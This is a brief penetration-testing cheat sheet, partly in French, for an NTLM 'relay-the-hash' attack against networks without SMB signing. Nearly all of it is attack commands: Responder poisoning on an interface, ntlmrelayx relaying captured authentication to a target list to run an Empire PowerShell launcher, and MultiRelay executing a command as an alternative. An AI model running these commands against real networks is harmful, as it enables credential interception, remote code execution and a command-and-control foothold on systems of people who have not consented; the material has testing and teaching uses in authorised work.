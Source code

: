 # Relay-the-hash

## prereqis: pas de smbsigning

python Responder.py -I <interface> -r -d -w

ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>

# alternative:

MultyRelay.py -t <cible> -u ALL -c command
